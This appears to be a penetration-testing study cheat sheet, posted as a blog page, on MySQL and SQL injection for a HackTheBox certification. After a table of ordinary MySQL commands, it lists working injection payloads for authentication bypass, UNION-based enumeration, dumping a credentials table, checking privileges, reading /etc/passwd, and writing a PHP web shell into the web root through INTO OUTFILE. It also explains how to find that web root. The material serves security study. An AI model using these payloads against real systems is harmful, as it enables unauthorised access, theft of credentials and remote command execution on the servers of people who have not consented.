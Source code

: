 ```yaml
---
layout: post
title: "SQL Injection Fundementals"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 13
---
```


## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p<password>` | login to mysql database (there shouldn't be any spaces between '-p' and the password). |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
| `SELECT * FROM ports UNION SELECT * FROM ships;` | Combine results from both tables |

## MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

---

## SQL Injection

## Auth Bypass

| **Payload**              | **Description**                      |
|--------------------------|--------------------------------------|
| `admin' OR '1'='1`       | Basic auth bypass                    |
| `admin')-- -`            | Basic auth bypass (with SQL comment) |
| **Reference**            | [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |

---

## Union Injection

| **Payload**                                                | **Description**                          |
|------------------------------------------------------------|------------------------------------------|
| `' ORDER BY 1-- -`                                         | Detect number of columns via `ORDER BY`  |
| `cn' UNION SELECT 1,2,3-- -`                               | Test UNION injection, discover columns   |
| `cn' UNION SELECT 1,@@version,3,4-- -`                     | Show MySQL version via UNION             |
| `UNION SELECT username,2,3,4 FROM passwords-- -`           | Extract usernames (4‑column UNION)       |

---

## DB Enumeration

| **Payload**                                                                                                                | **Description**                                            |
|----------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|
| `SELECT @@version`                                                                                                         | Fingerprint MySQL and return version string                |
| `SELECT SLEEP(5)`                                                                                                          | Fingerprint MySQL via time delay                           |
| `cn' UNION SELECT 1,database(),2,3-- -`                                                                                     | Retrieve current database name                             |
| `cn' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -`                                                   | List all databases                                         |
| `cn' UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema='dev'-- -`                  | List tables in the `dev` database                          |
| `cn' UNION SELECT 1,column_name,table_name,table_schema FROM information_schema.columns WHERE table_name='credentials'-- -` | List columns in the `credentials` table                    |
| `cn' UNION SELECT 1,username,password,4 FROM dev.credentials-- -`                                                          | Dump all rows from `dev.credentials`                       |

---

## Privileges

| **Payload**                                                                                                                                       | **Description**                                 |
|---------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------|
| `cn' UNION SELECT 1,user(),3,4-- -`                                                                                                                | Show current MySQL user                        |
| `cn' UNION SELECT 1,super_priv,3,4 FROM mysql.user WHERE user='root'-- -`                                                                          | Check if `root` has SUPER privileges            |
| `cn' UNION SELECT 1,grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE user='root'-- -`                           | List all privileges granted to `root`           |
| `cn' UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables WHERE variable_name='secure_file_priv'-- -`           | Show MySQL’s `secure_file_priv` setting         |

---

## File Injection

| **Payload**                                                                                                                                         | **Description**                      |
|-----------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------|
| `cn' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -`                                                                                                 | Read the `/etc/passwd` file          |
| `SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'`                                                                         | Write a string into a server‑side file |
| `cn' UNION SELECT '', '<?php system($_REQUEST[0]); ?>', '', '' INTO OUTFILE '/var/www/html/shell.php'-- -`                                            | Drop a PHP web shell into the web root `http://<Target System IP>:<Port>/shell.php?0=id`|

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) for Linux or this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) for Windows. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

---